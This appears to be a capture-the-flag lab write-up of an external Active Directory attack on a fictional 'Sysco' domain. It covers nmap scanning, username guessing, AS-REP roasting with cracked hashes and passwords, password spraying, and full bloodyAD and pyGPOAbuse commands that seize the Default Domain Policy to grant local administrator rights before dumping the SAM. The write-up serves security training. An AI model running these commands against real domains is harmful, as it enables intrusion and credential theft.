## Sysco


## Scenario

Sysco is a Managed Service Provider that has tasked you to perform an external penetration testing on their active directory domain. You must obtain initial foothold, move laterally and escalate privileges while evading Antivirus detection to obtain administrator privileges.

## Objectives and Scope

The **core objective** of this external penetration test is to simulate a realistic, determined adversary to achieve **Domain Administrator privileges** within Sysco's Active Directory (AD) environment. Starting from an external position, we will focus on obtaining an **initial foothold**, performing **lateral movement**, and executing **privilege escalation** while successfully **evading Antivirus (AV) and other security controls**. This is a red-team exercise to find security weaknesses before a real attacker does.

## Enumeration
The attacker starts by checking the available services.
```bash
nmap -sV -T4 -p- 10.1.141.55
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.58 ((Win64) OpenSSL/3.1.3 PHP/8.2.12)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-12-17 13:46:27Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: SYSCO.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: SYSCO.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49687/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49748/tcp open  msrpc         Microsoft Windows RPC
49817/tcp open  msrpc         Microsoft Windows RPC
```

Seeing port 80 is available the attacker browses to the site and finds the meet the team section. This will be an excellent attack vector.


Utilizing the names, the attacker will create a list of potential targets using common naming conventions:

potentials.txt
```
GregShields
SarahJhonson
JackDowland
LaineyMoore
GShields
SJhonson
JDowland
LMoore
Greg.Shields
Sarah.Jhonson
Jack.Dowland
Lainey.Moore
```

With [Kerbrute](https://github.com/ropnop/kerbrute) it's possible to check that list of names against valid users in Active Directory. The naming format of `Firstname.Lastname@sysco.local` is identified and with that, the attacker will create a users.txt.



users.txt
```
Greg.Shields
Jack.Dowland
Lainey.Moore
```

Utilizing this list, the attacker performs a common ASREP Roast attack to extract a hash for offline cracking.


With the hash offline, the attacker will use [hashcat](https://hashcat.net/hashcat/) to bruteforce it.


With the hash successfully cracked:
```
$krb5asrep$23$Jack.Dowland@SYSCO.LOCAL:771da8f4e9f29087f17dad7f1c88c61b$f096a2b8f6c5b811a3a06dbeb8585685fb53d8b3456ec9ddacb028e0cdccbb2b3827b40d6d5a1720b859dbda9f66c5f6b21195ec00f211228a1d14f996d435ae5b1466f2b466c3baa64f11216e2c2a6d3f75cae8840d9a9f6f1cb64050d8256e7ce1197589c303808a1ee2d3587672210bd684dc72cb52d6837e54719475fd07cdec17d56fac696b9f66acfe5b51b755a7a6a4a4fa671ecd932ab43fbfaa46a26f33aa4a0ef0465440b624674a76dfd425542537664291f20473911f89a89fbb35b0ea38f70ceb41689bf82fd5385e669650096e9f89b57c80e22c7fb61680139c671eb1c78b55c4e504:musicman1
```

The attacker will confirm compromise with [NetExec](https://www.netexec.wiki/?q=).


Additionally with this user pwn3d,  The attacker will utilize [bloodhound-ce-python](https://github.com/dirkjanm/BloodHound.py) to identify the Active Directory configuration and additional attack vectors.


There weren't any further attack paths identified from Active Directory with the current permission set. Stepping back to enumerate the web server further revealed some interesting endpoints. Mainly phpmyadmin and roundcube.


On `/roundcube` `jack.dowland` has and account and from which, an email to `lainey.moore` was found with a router config file.





Opening up the router config file reveals an encrypted password. `$1$mERr$isugnYiHsjHT.i.tc2GDY.`


Utilizing [hashcat](https://hashcat.net/hashcat/) this hash was trivial to crack. Revealing the password of `Chocolate1`.




Spraying the password adds `Lainey.Moore` to the pwn3d list. This user gets marked as Owned in [BloodHound](https://bloodhound.specterops.io/get-started/introduction). Access to their mail account did not seem possible.


This user yields remote access and the first flag.



Browsing files reveals a .lnk with stored credentials `netadmin:5y5coSmarter2025!!!




Spraying this password reveals it was reused with `Greg.Shields`. This is an escalation path to Domain Admin.



Since the scope indicate AV is on the box, the attacker will perform commands remotely to minimize detection. This is done with [BloodyAD](https://github.com/CravateRouge/bloodyAD) to take ownership over the `Default Domain Policy`.




```bash
bloodyad --host dc01.sysco.local -d sysco.local -u 'greg.shields' -p '5y5coSmarter2025!!!' set owner 'CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=POLICIES,CN=SYSTEM,DC=SYSCO,DC=LOCAL' 'greg.shields'

bloodyad --host dc01.sysco.local -d sysco.local -u 'greg.shields' -p '5y5coSmarter2025!!!' add genericAll 'CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=POLICIES,CN=SYSTEM,DC=SYSCO,DC=LOCAL' 'greg.shields'

python3 pygpoabuse.py 'SYSCO.LOCAL/greg.shields:5y5coSmarter2025!!!' -dc-ip 10.1.141.55 -gpo-id '31B2F340-016D-11D2-945F-00C04FB984F9' -command "net localgroup Administrators SYSCO\\greg.shields /add"
```

The attacker set themselves as the owner and added genericAll to themselves. Once done they utilized [pygpoabuse](https://github.com/Hackndo/pyGPOAbuse) to create a scheduled task on the machine to grant themselves local administrator.

![[gpoabuse.png]]


It was successful so the attacker simply dumps the SAM remotely and authenticates with the Administrator hash. Fully compromising the domain.


